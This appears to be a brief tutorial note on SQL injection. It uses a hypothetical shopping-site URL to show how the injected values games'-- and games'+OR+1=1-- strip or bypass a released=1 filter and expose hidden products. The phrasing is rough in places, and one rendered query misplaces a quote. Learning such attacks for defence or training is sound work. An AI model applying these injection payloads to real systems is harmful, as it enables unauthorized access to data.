 ## Retrieving Hidden Data

You can see the data the hasn't permission for you.

###### Consider a Shopping App
> \https://shopping.com/products?category=games

On above url the query may be like:

>SELECT * from  products WHERE category = 'games' AND released = 1 

SQL query asks the database to return :

- [ ]  all details (\*)
- [ ]  from the products table
- [ ]  where the category is games
- [ ]  and released is 1 

*released = 1*  is restriction that  is used to hide products that are not released <br>
*released = 0*  may be for unreleased products.

#### Attack Construction

>\https://shopping.com/products?category=games'--

**SQL query**

>SELECT * from products WHERE category = 'games'--'' AND released = 1

- [ ] **--** Double dash is important thing and it's used for commenting in SQL 
- [ ] Now released=1 is commented so it will release all products including unreleased products.

Attack  for the category that we didn't know

> \https://shopping.com/products?category=games'+OR+1=1--

**SQL query**

> SELECT * from products WHERE category = 'games' OR 1=1'-- AND released = 1

This will return either the products of category of games, or 1 is equals to 1. Since 1=1 is always true the query will return all items.



